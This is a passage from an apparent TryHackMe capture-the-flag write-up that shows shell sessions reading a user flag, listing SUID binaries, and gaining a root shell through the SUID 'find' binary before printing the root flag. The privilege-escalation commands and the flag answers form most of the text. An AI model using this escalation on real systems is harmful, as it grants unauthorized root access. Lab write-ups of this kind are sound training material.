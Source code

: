 <h3>zeamlish</h3>

```bash
www-data@ip-10-10-41-181:/home/zeamkish$ su zeamkish
Password: 
zeamkish@ip-10-10-41-181:~$ pwd           
/home/zeamkish
zeamkish@ip-10-10-41-181:~$ cat flag.txt
THM{USER_FLAG_1231_EXPOSE}
zeamkish@ip-10-10-41-181:~$ 
```


```bash
zeamkish@ip-10-10-41-181:~$ find / -perm -4000 2>/dev/null
/snap/core20/1974/usr/bin/chfn
/snap/core20/1974/usr/bin/chsh
/snap/core20/1974/usr/bin/gpasswd
/snap/core20/1974/usr/bin/mount
/snap/core20/1974/usr/bin/newgrp
/snap/core20/1974/usr/bin/passwd
/snap/core20/1974/usr/bin/su
/snap/core20/1974/usr/bin/sudo
/snap/core20/1974/usr/bin/umount
/snap/core20/1974/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core20/1974/usr/lib/openssh/ssh-keysign
/snap/core20/1950/usr/bin/chfn
/snap/core20/1950/usr/bin/chsh
/snap/core20/1950/usr/bin/gpasswd
/snap/core20/1950/usr/bin/mount
...
/usr/bin/pkexec
/usr/bin/sudo
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/nano
/usr/bin/su
/usr/bin/fusermount
/usr/bin/find
/usr/bin/at
/usr/bin/mount
zeamkish@ip-10-10-41-181:~$ 
```


```bash
zeamkish@ip-10-10-41-181:~$ find . -exec /bin/sh -p \; -quit
# whoami
root
# cd /root
# ls
flag.txt  snap
# cat flag.txt
THM{ROOT_EXPOSED_1001}
```
